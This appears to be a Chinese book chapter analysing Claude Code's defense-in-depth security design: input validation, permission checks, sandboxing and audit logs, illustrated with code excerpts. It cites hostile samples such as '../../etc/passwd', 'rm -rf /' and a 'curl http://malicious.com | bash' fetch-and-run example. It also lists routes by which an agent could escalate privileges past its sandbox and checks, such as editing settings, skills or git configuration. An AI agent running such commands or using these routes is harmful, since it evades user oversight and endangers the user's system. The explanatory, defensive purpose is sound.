




# 第 23 章：安全设计总结——纵深防御

> 没有单一的安全机制是完美的。Claude Code 的安全架构遵循纵深防御（Defense in Depth）原则——多层安全机制层层叠加，每一层弥补上一层的不足，形成完整的防护体系。

## 23.1 纵深防御：从城堡到 Agent

纵深防御是一个古老的军事概念：一座城堡不会只靠一面城墙。它有外壕、外墙、内墙、核心塔楼——即使敌人突破了第一层，还有第二层、第三层在等待。

在 Claude Code 的安全架构中，这个原则体现为四个防御层：



## 23.2 第一层：输入验证

输入验证是安全的第一道防线，也是最容易被忽视的。它的核心思想是：**不信任 AI 模型产生的任何输出**。

### 23.2.1 工具参数校验

每个工具在执行前都有一层参数校验。例如，文件路径工具会检查路径是否在工作目录内、是否存在路径遍历攻击（`../../etc/passwd`）、是否尝试访问符号链接指向的受保护区域。

在 `utils/permissions/filesystem.ts` 中，`pathInAllowedWorkingPath` 函数执行了这种检查：

```typescript
// 源码路径: utils/permissions/filesystem.ts
export function pathInAllowedWorkingPath(
  path: string,
  toolPermissionContext: ToolPermissionContext,
  cwd: string,
): string | null {
  // 1. 解析真实路径（处理符号链接）
  // 2. 检查是否在允许的工作目录内
  // 3. 检查是否在额外允许的目录内
  // 4. 如果不在任何允许的目录内，返回拒绝原因
}
```

### 23.2.2 Bash 命令的安全检查

Bash 工具有最复杂的输入验证。在 `utils/permissions/permissions.ts` 中，Bash 命令经过多层安全检查：

**跨平台路径绕过检测**：

```typescript
// 源码路径: utils/permissions/permissions.ts
// 在 Windows 上检测跨驱动器路径（C:\ → D:\）
// 这些路径可能绕过工作目录限制
if (isWindowsPathBypass(command, cwd)) {
  return {
    behavior: 'ask',
    decisionReason: { type: 'safetyCheck', reason: '...', classifierApprovable: false },
  }
}
```

**敏感文件路径检查**：

```typescript
// .claude/、.git/、.vscode/、shell 配置文件等敏感路径
// 即使在 Bypass 模式下也需要用户确认
for (const [re, name] of SENSITIVE_FILE_PATHS) {
  if (re.test(command)) {
    return {
      behavior: 'ask',
      decisionReason: { type: 'safetyCheck', reason: name, classifierApprovable: true },
    }
  }
}
```

注意 `classifierApprovable` 的区分——敏感文件路径的检查可以被 AI 分类器覆盖（`classifierApprovable: true`），但跨平台路径绕过不行（`classifierApprovable: false`）。设计者的判断是：修改 `.git/config` 在某些场景下是合理的（分类器可以根据上下文判断），但跨驱动器路径访问几乎不可能有正当理由。

**命令分割的安全处理**：

```typescript
// 源码路径: utils/permissions/permissions.ts
// 如果 splitCommand_DEPRECATED 可能误解析命令
// （如行续行、shell 引号转换），直接要求确认
if (isBashSecurityCheckForMisparsing) {
  return {
    behavior: 'ask',
    isBashSecurityCheckForMisparsing: true,
    // 在 splitCommand_DEPRECATED 转换之前阻止
  }
}
```

### 23.2.3 命令解析的信任边界

Bash 命令解析是一个信任边界。Agent 生成的命令字符串被 `splitCommand_DEPRECATED` 函数解析为子命令列表，然后对每个子命令分别进行权限检查。但 shell 语法是复杂的——行续行符（`\`）、变量替换（`$var`）、命令替换（`` `cmd` ``）、heredoc（`<<EOF`）都可能让解析器产生错误的结果。

安全设计的选择是：**宁可误报也不漏报**。如果解析器无法确定地理解命令结构，就要求用户确认。这是一种"不确定即拒绝"的保守策略。

## 23.3 第二层：权限检查

权限检查是 Claude Code 安全架构的核心层。前两章已经详细讨论了权限模型和运行时执行，这里我们从一个更高的视角来审视这一层解决了什么问题。

### 23.3.1 权限检查解决的核心问题

AI Agent 的行为是**非确定性的**——同一个用户请求，Agent 可能在不同的推理轮次选择不同的工具和参数。这种非确定性意味着传统的"预授权"模型（安装时一次性授权所有权限）不适用。

权限检查解决的核心问题是：**在每次操作之前，根据当前上下文做出细粒度的授权决策。**



### 23.3.2 权限系统的安全属性

一个设计良好的权限系统应该具备以下安全属性：

**完整性（Completeness）**：每一个可能产生副作用的操作都必须经过权限检查。在 Claude Code 中，工具执行的入口点 `StreamingToolExecutor` 在每次工具调用前都调用 `canUseTool`。没有"后门"路径可以绕过这个检查。

**不可绕过性（Non-bypassability）**：即使在 `bypassPermissions` 模式下，Deny 规则和安全检查仍然生效。`bypass` 不是"忽略所有安全"，而是"在安全范围内尽可能自动化"。

**可审计性（Auditability）**：每个权限决策都被记录。`logPermissionDecision` 函数记录了决策的来源（配置、用户、Hook、分类器）、时间戳、工具名称和参数。这些日志不仅用于调试，也用于安全审计。

**最小权限（Least Privilege）**：默认模式（`default`）下，所有操作都需要用户确认。用户通过逐步授权来提升 Agent 的权限，而不是默认给予最大权限。`suggestions` 机制建议最小授权规则——允许 `npm run test` 而不是 `npm run:*`。

### 23.3.3 权限系统的分层检查

权限检查本身也是分层的，体现了纵深防御的思想：

```
第一层：全局 Deny 规则 → 不可覆盖的拒绝
第二层：安全检查 → 对敏感路径的强制审查
第三层：工具自身检查 → 工具特定的安全逻辑
第四层：用户配置的 Allow/Deny/Ask 规则
第五层：AI 分类器（Auto 模式）
第六层：用户交互（最终兜底）
```

每一层都是独立的，不依赖其他层的正确性。即使某一层有 bug，其他层仍然可以捕获安全问题。

## 23.4 第三层：沙箱隔离

权限检查是应用层的控制——它在工具执行之前做决策。但应用层的控制有一个根本弱点：**它只能控制入口，不能控制执行过程。**

一旦 Agent 获准执行了一个 Bash 命令，应用层就失去了对执行过程的控制。命令可能执行应用层无法预见的操作——修改系统文件、访问网络资源、启动新的进程。

沙箱在操作系统层面提供了强制隔离，弥补了应用层控制的不足：

### 23.4.1 权限与沙箱的互补关系

| 攻击场景 | 权限系统 | 沙箱系统 |
|---------|---------|---------|
| Agent 尝试执行 `rm -rf /` | Deny 规则拒绝 | 即使允许，也限制在沙箱内 |
| Agent 通过 Python 执行系统命令 | 检测到 `python -c` 的危险模式 | 即使允许，网络访问受限 |
| Agent 修改 `.claude/settings.json` | 安全检查弹出确认 | 即使绕过检查，沙箱也会阻止写入 |
| Agent 在 `npm install` 中执行 postinstall 脚本 | 可能被 Allow 规则允许 | 沙箱限制了脚本的文件和网络访问 |
| Agent 通过 Git 配置注入恶意命令 | 可能被安全检查捕获 | 即使未被捕获，`cleanupAfterCommand` 会清理 |

### 23.4.2 沙箱的故障模式

沙箱本身也可能失败——缺少依赖、平台不支持、配置错误。Claude Code 对每种故障模式都有明确的处理：



`failIfUnavailable` 是一个企业级安全设置。启用后，如果沙箱不可用，Agent 将拒绝执行任何 Bash 命令。这是"安全优先"的极端选择——宁可完全不可用也不能不安全。

### 23.4.3 权限提升攻击的防护

权限提升（Privilege Escalation）是沙箱设计中最关注的安全威胁。Claude Code 防护了多种权限提升路径：

1. **通过修改设置文件提升权限**：沙箱阻止写入所有设置文件。
2. **通过修改 Skills/Commands/Agents 注入持久化代码**：沙箱阻止写入 `.claude/skills`、`.claude/commands`、`.claude/agents`。
3. **通过 Git 裸仓库注入影响非沙箱进程**：沙箱清理 `bareGitRepoScrubPaths` 中的文件。
4. **通过环境变量或 shell 配置文件影响后续命令**：安全检查弹出确认。

每种攻击路径都有对应的防御层。没有单一防御是完美的，但它们的组合使得攻击变得极其困难。

## 23.5 第四层：操作审计

审计是纵深防御的最后一层。它不阻止任何操作，但记录了发生的一切。审计的价值不在于事前防御，而在于事后分析、合规审查和系统改进。

### 23.5.1 审计日志的维度

Claude Code 的审计日志涵盖多个维度：

**权限决策日志**（`hooks/toolPermission/permissionLogging.ts`）：

```typescript
logPermissionDecision(
  { tool, input, toolUseContext, messageId, toolUseID },
  { decision: 'accept' | 'reject', source },
  permissionPromptStartTimeMs,
)
```

每条日志记录了：
- 被请求的工具和输入参数
- 最终决策（accept/reject）
- 决策来源（config/user/hook/classifier）
- 从请求到决策的耗时

**沙箱违规日志**：

```typescript
BaseSandboxManager.getSandboxViolationStore()
```

沙箱违规被记录在 `SandboxViolationStore` 中，包含违规的类型（文件系统/网络）、路径或域名、被拒绝的操作。

**分类器决策日志**：

```typescript
type YoloClassifierResult = {
  shouldBlock: boolean
  reason: string
  usage?: ClassifierUsage
  durationMs?: number
  stage?: 'fast' | 'thinking'
  stage1RequestId?: string
  stage2RequestId?: string
}
```

分类器的每次决策都有详细的记录，包括 API 请求 ID（用于服务端日志关联）、token 使用量和耗时。

**调试日志**：

```typescript
logForDebugging(`[Sandbox] scrubbed planted bare-repo file: ${p}`)
logForDebugging(`Sandbox configuration updated from settings change`)
logForDebugging(`Failed to initialize sandbox: ${error}`)
```

调试日志通过 `logForDebugging` 输出，可以按级别过滤（info/warn/error）。

### 23.5.2 审计数据的使用场景

审计数据不仅用于事后分析，还用于系统的实时优化：

**拒绝限流**（第 21 章讨论）：当连续拒绝次数达到阈值时，系统回退到用户交互模式。这依赖于运行时拒绝计数。

**分析遥测**：`logEvent('tengu_tool_use_cancelled', ...)` 等分析事件帮助 Anthropic 理解权限系统的使用模式，优化分类器的准确率。

**分类器性能优化**：`stage1DurationMs`、`stage2DurationMs`、`promptLengths` 等指标帮助评估分类器的延迟和成本，指导两阶段策略的调优。

## 23.6 四层防御的协作模型

四层防御不是独立的，而是紧密协作的。让我用一个完整的例子来展示：

**场景**：Agent 尝试执行 `bash -c 'curl http://malicious.com | bash'`



这个例子展示了四层防御的协作：

1. **输入验证**（第一层）正确解析了复合命令，识别出两个子命令。
2. **权限检查**（第二层）检测到高风险模式，要求用户确认。
3. 即使**用户误操作允许了**，**沙箱隔离**（第三层）仍然会阻止对 `malicious.com` 的网络访问。
4. **审计日志**（第四层）记录了整个过程中的每一个决策点。

这就是纵深防御的力量——没有单点失败。每一层都是其他层的备份。

## 23.7 纵深防御的设计原则

从 Claude Code 的安全架构中，我们可以提炼出几个通用的纵深防御设计原则：

### 原则一：安全属性不依赖单一机制

没有任何安全机制是完美的。规则引擎可能有 bug，AI 分类器可能误判，用户可能被社会工程学欺骗，沙箱可能有逃逸漏洞。纵深防御的核心是：**如果任何单一机制失败，其他机制仍然可以保护系统。**

在 Claude Code 中，这一点体现在每一层都有独立的、不依赖其他层的检查逻辑。权限检查不假设沙箱会阻止一切；沙箱不假设权限检查会阻止一切。

### 原则二：默认拒绝，显式允许

`default` 权限模式下，所有操作都需要用户确认。这是"默认拒绝"策略的直接体现。用户通过逐步添加 Allow 规则来提升 Agent 的权限——而不是通过移除 Deny 规则。

`suggestions` 机制将"显式允许"的成本降到最低。系统根据当前操作建议最小授权规则，用户只需点击"永久允许"就能避免将来的重复确认。

### 原则三：敏感操作需要更强的保障

不是所有操作的安全需求都相同。修改 `.git/config` 比编辑 `src/main.ts` 敏感得多。Claude Code 对敏感操作施加了更强的保障：

- **安全检查独立于权限模式**：即使在 Bypass 模式下，敏感路径也需要确认。
- **沙箱中的硬编码保护**：设置文件的 Deny 写入是硬编码的，不受用户规则影响。
- **分类器的两阶段评估**：敏感操作可能需要 Stage 2 的深度思考。

### 原则四：故障模式偏向安全

当系统无法确定一个操作是否安全时，应该选择更安全的方向：

- 权限规则无法匹配 → 要求用户确认（ask）
- AI 分类器不可用 → 回退到用户交互（或 fail-closed）
- 沙箱无法初始化 → 根据配置决定是拒绝执行还是降级运行
- 命令解析不确定 → 要求用户确认
- 拒绝次数过多 → 回退到用户交互或终止 Agent

每一个"不确定"的决策都偏向安全——宁可多问一次用户，也不能让一个危险操作溜过去。

### 原则五：可审计性是安全的基石

如果无法追溯发生了什么，就无法验证安全策略是否有效，也无法在安全事件发生后进行调查。Claude Code 的审计日志覆盖了权限决策、沙箱违规、分类器判断等多个维度，为安全运营提供了基础数据。

审计日志不是事后的补充，而是纵深防御不可或缺的一层。它回答了一个关键问题："如果所有防御层都失败了，我们至少需要知道发生了什么。"

## 23.8 总结：Agent 安全的未来方向

Claude Code 的安全架构为 AI Agent 系统树立了一个标杆。它的核心洞察是：

**AI Agent 的安全不是单一问题，而是一个问题空间。** 输入验证、权限检查、沙箱隔离、操作审计——每一层解决不同子问题，覆盖不同攻击向量。只有将它们组合在一起，才能形成一个完整的安全体系。

展望未来，AI Agent 的安全还面临几个开放挑战：

**自适应安全策略**：当前的安全策略是静态配置的。未来的 Agent 可能需要根据运行时上下文动态调整安全级别——在处理敏感数据时自动收紧权限，在执行低风险任务时自动放宽。

**多 Agent 安全**：Swarm 架构中的多个 Agent 如何安全地协作？子 Agent 的权限如何限定？Agent 之间的通信如何防止信息泄露？这些问题的答案还在探索中。

**人机协同的信任模型**：AI 分类器是 Claude Code 的创新尝试，但它仍然是一个"黑盒"决策。Claude Code 已经开始探索方向——`permissionExplainer` 模块使用 AI 来为权限弹窗生成人类可读的风险解释（包含风险等级、操作说明、潜在后果），帮助用户做出明智的决策。这实际上是在安全架构中增加了一个"可解释性层"——不仅让系统安全，还让用户理解为什么安全。但这个方向还有很长的路要走。

这些挑战的答案，很可能仍然遵循纵深防御的原则——不追求单点完美，而是构建多层、互补、可审计的安全体系。Claude Code 的架构为这个方向提供了一个坚实的起点。
